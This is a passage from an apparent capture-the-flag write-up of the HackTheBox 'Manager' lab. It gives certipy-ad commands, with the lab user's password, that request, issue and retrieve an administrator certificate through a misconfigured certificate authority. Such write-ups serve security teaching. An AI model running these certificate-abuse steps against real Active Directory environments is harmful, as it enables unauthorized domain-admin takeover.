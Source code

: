 <figure><img src="../../.gitbook/assets/image (333).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
certipy-ad req -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn 'administrator@manager.htb'
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (334).png" alt=""><figcaption></figcaption></figure>

### Issuing the Requested Certificate

Once the certificate request was submitted, I needed it to be approved and issued.

{% code overflow="wrap" %}
```bash
certipy-ad ca -ca 'manager-DC01-CA' -issue-request <CHANGE-WITH-PREVIOUS-ISSUE-REQUEST-GENERATED> -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (335).png" alt=""><figcaption></figcaption></figure>

### Retrieved the Issued Certificate

After the certificate was issued, I retrieved it.This allowed ‘raven’ to have the certificate locally and use it for authentication.

{% code overflow="wrap" %}
```bash
certipy-ad req -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -retrieve <CHANGE-WITH-PREVIOUS-ISSUE-REQUEST-GENERATED>
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (336).png" alt=""><figcaption></figcaption></figure>
